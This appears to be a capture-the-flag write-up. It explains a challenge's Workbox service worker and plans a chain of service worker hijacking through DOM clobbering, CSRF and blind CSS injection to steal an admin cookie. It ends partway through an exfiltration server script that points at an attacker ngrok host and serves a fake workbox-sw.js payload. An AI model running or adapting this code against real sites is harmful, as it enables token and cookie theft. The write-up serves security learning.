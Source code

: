 This service worker code is used to set up caching strategies for different routes. It utilizes the Workbox library, commonly used for service worker-related tasks.

1. **URL Parameters Parsing:**
   - It starts by parsing the URL parameters of the current location.

2. **Dynamic Import of Workbox Script:**
   - It dynamically imports the Workbox script based on the 'host' and 'version' parameters from the URL.

3. **Caching Strategies:**
   - It registers a caching strategy for images using a CacheFirst approach.
   - Sets a default network-only strategy for routes not explicitly defined.

4. **Custom Route Handling:**
   - Registers a custom route handling for a specific API endpoint (`/challenge/api/profile`) using a NetworkOnly strategy with a specified network timeout of 600 seconds for POST requests.

This code configures a service worker to cache images using a CacheFirst strategy, sets a default network-only strategy for other routes, and customizes the caching strategy for a specific API endpoint. The 'host' and 'version' parameters in the URL are used to dynamically import the Workbox script.

The implementation is vulnerable to `Service Worker Hijacking using dom clobbering`, So we can hijack the service worker and read the cookie if we can perform CSRF and update the admin username. 

The important thing to note here is that before `Chrome 97` service workers did not follow the `SameSite` rules, so it means even if the cookie is set to `Strict` we can still perform CSRF

Now another problem arises every time the bot logs in it gets a new CSRF token, so we have to perform CSS Injection and CSRF in one go

We can use this [tool](https://github.com/hackvertor/blind-css-exfiltration) but it will not work in `Chromium 93.0.4577.82` as that version of Chrome does not have the `html:has` selector, we have to update it and we can use the following version:

```js
const connect = require('connect');
const http = require('http');
const url = require('url');
const port = 5001;

const HOSTNAME = "https://f0af-2405-201-550b-ba5-3ca4-b505-692f-fdf0.ngrok-free.app";
const ELEMENTS = ["input"];
const ATTRIBUTES = { __proto__: null, "input": ["value"] };
const MAX_ELEMENTS = 20;
const MAX_VALUE = 50;
const WAIT_TIME_MS = 2000;
const MAX_SESSION_AMOUNT = 10000;
const SHOW_RESULTS_IN_BROWSER = false;
const SHOW_RESULTS_IN_CONSOLE = true;

const LOWER_LETTERS = "abcdefghijklmnopqrstuvwxyz";
const UPPER_LETTERS = "ABCDEFGHIJKLMNOPQRSTUVWXYZ";
const NUMBERS = "0123456789";
const SPACE = ' ';
const SYMBOLS = "-";
const CHARS = (LOWER_LETTERS + NUMBERS + SYMBOLS).split('');

var session = new Map();

const app = connect();
const compression = require('compression');
app.use(compression());

app.use('/workbox-cdn/releases/6.5.3/workbox-sw.js', function (request, response) {
    let payload = `
    importScripts(
```
